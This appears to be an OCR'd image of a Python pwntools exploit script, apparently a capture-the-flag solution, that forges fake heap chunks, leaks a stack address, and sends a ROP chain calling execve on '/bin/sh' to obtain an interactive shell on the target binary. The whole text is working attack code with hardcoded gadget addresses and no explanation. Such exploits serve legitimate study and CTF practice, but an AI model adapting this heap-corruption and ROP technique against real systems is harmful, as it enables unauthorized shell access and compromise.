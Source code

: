 ```python


username=0x5dc980
stack=0x5e4fa8
ukey=b'\x30'*5+b'\x31'+b'\x44'

fake_chunk=flat({
    0:username+0x10,
    0x10:[username+0x20,len(ukey),\
        ukey,0],
    0x30:[stack,0x10]
    },filler=b'\x00')

p.sendlineafter(b'name',fake_chunk)
p.sendlineafter(b'word','freep@ssw0rd:3')

add(b'\x30'*1+b'\x31'+b'\x44',b'test')   # 126
add(b'\x30'*2+b'\x31'+b'\x44',b'test')   # 127


show(ukey)
main_ret=u64(p.read(8))-0x1e0




rdi=0x0000000000405e7c # pop rdi ; ret
rsi=0x000000000040974f # pop rsi ; ret
rdx=0x000000000053514b # pop rdx ; pop rbx ; ret
rax=0x00000000004206ba # pop rax ; ret
syscall=0x00000000004560c6 # syscall

fake_chunk=flat({
    0:username+0x20,
    0x20:[username+0x30,len(ukey),\
        ukey,0],
    0x40:[main_ret,0x100,b'/bin/sh\x00']
    },filler=b'\x00')

name(fake_chunk.ljust(0x80,b'\x00'))


payload=flat([
    rdi,username+0x50,
    rsi,0,
    rdx,0,0,
    rax,0x3b,
    syscall
    ])

p.sendlineafter(b'Option:',b'3')
p.sendlineafter(b'Key:',ukey)
p.sendline(payload)
p.sendlineafter(b'Option:',b'9')
p.interactive()
```

